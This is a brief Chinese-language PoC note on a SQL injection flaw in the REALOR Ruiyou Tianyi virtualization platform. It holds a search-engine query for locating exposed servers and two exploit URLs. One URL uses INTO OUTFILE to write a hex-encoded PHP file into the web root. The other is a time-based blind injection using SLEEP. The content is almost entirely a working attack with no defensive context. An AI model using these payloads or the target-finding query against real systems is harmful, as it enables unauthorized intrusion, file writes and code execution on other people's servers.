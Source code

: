 ## 瑞友天翼应用虚拟化系统appsave接口存在SQL注入漏洞

## hunter
```
app.name="REALOR 瑞友天翼虚拟化平台"
```

## poc
```
http://xx.xx.xx.xx/hmrao.php?s=/Admin/appsave&appid=1%27);select%200x3c3f70687020706870696e666f28293b3f3e%20into%20outfile%20%27C:\Program%20Files%20(x86)\RealFriend\Rap%20Server\WebRoot\123.php%27%20--+

http://xx.xx.xx.xx/hmrao.php?s=/Admin/appdel&list=1111111%27%29%29%20AND%20%28SELECT%206312%20FROM%20%28SELECT%28SLEEP%285%29%29%29coHe%29%23
```

## 漏洞来源
- https://mp.weixin.qq.com/s/-TliLqPaokAqcE_qj5OPVQ
